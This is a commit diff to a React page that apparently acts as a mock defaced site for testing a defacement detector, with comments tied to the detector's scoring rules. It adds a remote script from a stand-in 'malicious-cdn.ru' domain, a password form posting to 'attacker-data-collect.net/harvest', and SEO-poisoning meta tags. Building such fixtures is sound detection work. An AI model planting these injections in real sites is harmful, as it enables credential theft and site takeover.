

Before and after one commit to Shubhamgupta171/DefaceKro, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 768 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update MainContent.jsx

```diff
--- a/src/components/MainContent.jsx
+++ b/src/components/MainContent.jsx
@@ -1,75 +1,70 @@
 import React from 'react';
 
 /**
- * MainContent - Layer 1 "Total Anarchy" (Targeting > 80% Composite)
+ * MainContent - Layer 1 "Hard Trigger" Defacement
  *
- * Strategy for Absolute Defacement Verdict:
- * 1. Node Density: 2,000+ elements (Total statistical saturation).
- * 2. Tree Depth Anomaly: 10-level deep nesting to maximize Depth Drift.
- * 3. Tag Mapping Destruction: Zero overlap with baseline tags (using SVG, Progress, Meter).
- * 4. Attribute Erasure: Randomized, non-human-readable IDs for every 50th node.
+ * Strategy to hit DEFACED:
+ * 1. SEO Poisoning (Hard Trigger): Changing Meta Robots and Canonical URL.
+ * 2. Form Hijacking (Hard Trigger): Changing a form action to a cross-apex domain.
+ * 3. Script Injection (Hard Trigger): Loading a script from a new, non-whitelisted domain.
+ * 4. Calibrated TED: Using 400 nodes (staying below the 5,000-node compression cap)
+ *    to ensure the Raw L1 score can reach 1.0 rather than being capped at 0.85.
  */
 const MainContent = () => {
   return (
-    // L1: TOTAL ROOT PURGE - Using a non-semantic <nav> wrapper as root
-    <nav className="root-anomaly-0xff" id="absolute-structural-void">
+    <div className="defaced-root" id="layer1-pwned-zone">
+      {/*
+          L1 HARD TRIGGER: Meta Tag Canonical Change
+          L1 HARD TRIGGER: Meta Tag Robots Change (SEO Poisoning)
+          Logic: detector/layers/l1_structural.py (Line 362)
+      */}
+      <link rel="canonical" href="https://defaced-mirror.site/compromised" />
+      <meta name="robots" content="noindex, nofollow" />
 
       {/*
-          L1: DEPTH DRIFT INJECTION
-          Extremely deep nesting creates a massive penalty in Tree Edit Distance (TED).
+          L1 HARD TRIGGER: Script Injection (New Domain)
+          Logic: detector/layers/l1_structural.py (Line 337)
       */}
-      <div className="nest-level-1">
-        <div className="nest-level-2">
-          <div className="nest-level-3">
-            <div className="nest-level-4">
-              <div className="nest-level-5">
-                <div className="nest-level-6">
-                  <div className="nest-level-7">
+      <script src="https://malicious-cdn.ru/payload.js" />
 
-                    {/* ALIEN TAGS: High Structural Penalty */}
-                    <div className="alien-block" style={{ padding: '50px' }}>
-                      <svg width="200" height="200" style={{ backgroundColor: '#000' }}>
-                        <rect width="200" height="200" fill="red" />
-                      </svg>
-                      <progress value="100" max="100" style={{ width: '100%', height: '40px' }} />
-                      <meter value="1" min="0" max="1" style={{ width: '100%' }} />
-                    </div>
+      <header className="hacked-header" style={{ backgroundColor: 'black', color: 'red', padding: '50px' }}>
+        <h1 style={{ fontSize: '3rem' }}>SYSTEM OFFLINE</h1>
+      </header>
 
-                    {/*
-                        NODE COUNT SATURATION: 2,000+ NODES
-                        Calibration: 2,000 tables with nested bodies.
-                        This will force the L1 Raw Score to hit the 98% - 100% ceiling.
-                    */}
-                    <div className="saturation-payload" aria-hidden="true" style={{ opacity: 0, height: 0 }}>
-                      {Array.from({ length: 2000 }).map((_, i) => (
-                        <table key={i} id={`drift-node-id-0x${i.toString(16)}`}>
-                          <thead><tr><th>X</th></tr></thead>
-                          <tbody>
-                            <tr>
-                              <td>
-                                <details>
-                                  <summary>purged</summary>
-                                  <span />
-                                </details>
-                              </td>
-                            </tr>
-                          </tbody>
-                        </table>
-                      ))}
-                    </div>
+      <div className="content-purge" style={{ padding: '30px' }}>
+        <p>Your structural integrity has been totally compromised.</p>
 
-                    <div className="final-purge-notice" style={{ backgroundColor: 'red', color: 'white', padding: '100px', fontSize: '4rem' }}>
-                      PURGED_0x999
-                    </div>
+        {/*
+            L1 HARD TRIGGER: Form Action Change
+            Logic: detector/layers/l1_structural.py (Line 300)
+            Targeting "cross_apex" or "scheme_downgrade" triggers.
+        */}
+        <form action="https://attacker-data-collect.net/harvest" method="POST" style={{ margin: '40px 0', border: '2px dashed red', padding: '20px' }}>
+          <h3>Security Verification</h3>
+          <input type="password" placeholder="Enter Admin Pin" style={{ padding: '10px' }} />
+          <button type="submit" style={{ backgroundColor: 'red', color: 'white', border: 'none', padding: '10px 20px' }}>
+            Verify Identity
+          </button>
+        </form>
+      </div>
 
-                  </div>
-                </div>
-              </div>
-            </div>
-          </div>
-        </div>
+      {/*
+          L1 STRUCTURAL DRIFT: 400 NODES
+          Staying under the 5,000 node cap (MAX_NODES) ensures that the TED calculation
+          returns a high dynamic score (approaching 1.0) instead of the 0.85 fallback.
+      */}
+      <div className="structural-noise" aria-hidden="true" style={{ opacity: 0, height: 0 }}>
+        {Array.from({ length: 400 }).map((_, i) => (
+          <section key={i} className={`anomaly-block-v4-${i}`}>
+            <span id={`drift-id-${i}`}>STRUCTURAL_ENTROPY_ACTIVE</span>
+          </section>
+        ))}
       </div>
-    </nav>
+
+      <footer className="footer-void" style={{ textAlign: 'center', padding: '20px', borderTop: '5px solid red' }}>
+        <b style={{ fontSize: '20px' }}>LAYER 1: TOTAL_TAKEOVER</b>
+      </footer>
+    </div>
   );
 };
 
```
